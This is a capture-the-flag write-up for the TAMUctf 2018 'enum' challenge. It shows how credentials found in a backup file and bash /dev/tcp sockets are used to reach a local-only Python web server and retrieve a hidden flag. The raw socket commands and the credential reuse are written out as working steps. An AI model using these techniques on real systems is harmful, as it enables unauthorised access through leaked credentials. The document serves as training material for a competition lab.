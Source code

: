 # enum (misc 150)
## Description
Find the hidden flag.<br>
```ssh tamuctf@shell2.ctf.tamu.edu -p 2222```<br>
password: tamuctf

## Information gathering
After logging in to the given server and looking around, we found following interesting stuff on the system
### pyserver.py 9000
```ps -aux``` shows that there is a server running on port **9000**.
After a short port scan it was clear, the server is **not reachable remotely**. We need to connect to the server "**locally**".

### /var/backups/.srv.bak
```
Our lazy IT guy hasn't set up our apache server yet, so we have to use some weird snake-server in the meantime.
Save this file as a backup for the credentials.

uname: administrator
passwd: dcVMOlH5e6Hd1LGHXLmWzFhjqMu2/nIP9CXt23aq2CE
```
This seems to be credentials, we probably need later.
## Exploting
It was clear we need a way to connect to the local server on port 9000.
That was quite tricky, since we were not able to use ```curl```, ```wget```, ```netcat``` and consorters.
But we got ```bash``` and bash is able to **open TCP/UDP sockets**.

```$ exec {file-descriptor}<>/dev/{protocol}/{host}/{port}```

>The "file descriptor" is a unique non-negative integer associated with each socket. File descriptors 0, 1 and 2 are reserved for stdin, stdout and stderr, respectively. Thus you must specify 3 or higher (whichever is unused) as a file descriptor.
"<>" implies that the socket is open for both reading and writing. Depending on your need, you can open a socket for read-only (<) or write-only (>).
The "protocol" field can be either tcp or udp. The "host" and "port" fields are self-explanatory.<br>
taken from http://xmodulo.com

```bash
exec 5</dev/tcp/localhost/9000
echo -e "GET / HTTP/1.0\n" >&5
cat <&5
```
This returned a **401 Unauthorized**. That indicates, we need the credentials from the backup.
```
HTTP/1.0 401 Unauthorized
Server: SimpleHTTP/0.6 Python/2.7.12
Date: Mon, 19 Feb 2018 12:08:07 GMT
WWW-Authenticate: Basic realm="Test"
Content-type: text/html
```
Lets prepare the [correct header](https://en.wikipedia.org/wiki/Basic_access_authentication#Client_side):

administrator:dcVMOlH5e6Hd1LGHXLmWzFhjqMu2/nIP9CXt23aq2CE<br>
in base64<br>
YWRtaW5pc3RyYXRvcjpkY1ZNT2xINWU2SGQxTEdIWExtV3pGaGpxTXUyL25JUDlDWHQyM2FxMkNF

```bash
exec 5</dev/tcp/localhost/9000
echo -e "GET / HTTP/1.0\nAuthorization: Basic YWRtaW5pc3RyYXRvcjpkY1ZNT2xINWU2SGQxTEdIWExtV3pGaGpxTXUyL25JUDlDWHQyM2FxMkNF\n" >&5
cat <&5
```
That returned a **200 OK** with the following content. That indicates our authentication was correct.
```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/2.7.12
Date: Mon, 19 Feb 2018 12:09:48 GMT
Content-type: text/html; charset=ANSI_X3.4-1968
Content-Length: 258

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /</title>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href=".flag.txt">.flag.txt</a>
<li><a href="pyserver.py">pyserver.py</a>
</ul>
<hr>
</body>
</html>
```
**Finaly payload:**
```bash
exec 5</dev/tcp/localhost/9000
echo -e "GET /.flag.txt HTTP/1.0\nAuthorization: Basic YWRtaW5pc3RyYXRvcjpkY1ZNT2xINWU2SGQxTEdIWExtV3pGaGpxTXUyL25JUDlDWHQyM2FxMkNF\n" >&5
cat <&5
```
